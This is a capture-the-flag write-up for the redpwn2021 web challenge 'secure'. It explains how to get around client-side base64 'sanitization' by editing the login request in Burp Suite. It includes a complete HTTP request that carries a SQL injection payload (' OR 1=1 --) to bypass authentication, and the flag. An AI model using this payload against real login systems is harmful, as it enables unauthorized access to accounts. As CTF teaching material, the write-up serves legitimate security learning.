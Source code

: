 # redpwn2021

# secure  
**Category:** web  
**Description:**  
Just learned about encryption—now, my website is unhackable!

secure.mc.ax

# solution  
This problem is a simple sql injection.  When looking at the javascript, you
can find that the input is 'sanitized' client side via base 64 encoding,
thereby preventing any direct sql injection through the input boxes.  However,
this can be very easily bypassed by using burp suite.  Burp allows you to
directly modify the packet sent, so you can change the base64 encoded password
in the request sent to the sql injection to bypass b64 encoding and get the
flag.

  

```  
My Example Burp Request:  
POST /login HTTP/1.1  
Host: secure.mc.ax  
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101
Firefox/83.0  
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 53  
Origin: https://secure.mc.ax  
Connection: close  
Referer:
https://secure.mc.ax/?message=flag%7B50m37h1n6_50m37h1n6_cl13n7_n07_600d%7D  
Upgrade-Insecure-Requests: 1

username=YWRtaW4%3D&password=' OR 1=1 --  
```  
  
  
YWRtaW4%3D is base64 & url encoded 'admin'  

Original writeup
(https://github.com/Teddygat0r/redpwn2021/blob/main/README.md).
